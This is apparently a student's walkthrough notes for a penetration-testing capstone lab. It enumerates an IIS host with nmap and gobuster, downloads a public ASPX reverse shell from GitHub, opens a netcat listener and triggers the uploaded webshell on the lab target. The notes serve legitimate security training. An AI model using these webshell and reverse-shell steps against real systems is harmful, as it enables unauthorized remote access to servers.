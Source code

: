 4. **Capstone Lab**: Enumerate the machine VM #4. Find the web application and get access to the system. The flag can be found in **C:\inetpub\**.
HINT

5. Nmap to find open HTTP ports.
6. Explore the main page of the ports for file upload.
7. Upload a webshell and identify the web server for server-side scripting (PHP or ASPX).
8. Index page provides hints on locating your webshell.

```bash
# IP: 192.168.123.192

# Enumeration
sudo nmap -sV -sC -v 192.168.123.192
	# Found open ports: 8000 seems like a website with upload file capabilities

```
![[Pasted image 20250313223937.png]]

```bash

# Listing directories and files
gobuster dir -u 192.168.123.192:8000 -w /usr/share/wordlists/dirb/common.txt
	# Can't find anything - guess we do file upload thing..? :O

# The text tells us to look "on the other port". Since there are 2 IIS servers, we look for the port 80 one.
gobuster dir -u 192.168.123.192:80
	# Seems like the server is linked to aspx!
```
![[Pasted image 20250313224600.png]]

```bash
# Open the reverse shell first
nc -lvnp 4444

# Uploading a reverse shell found at 
curl --output shell.aspx https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/refs/heads/master/shell.aspx

# Then, access the file we uploaded (tried the root, as no other path exists)
curl http://192.168.123.192:80/shell.aspx
```

![[Pasted image 20250313224524.png]]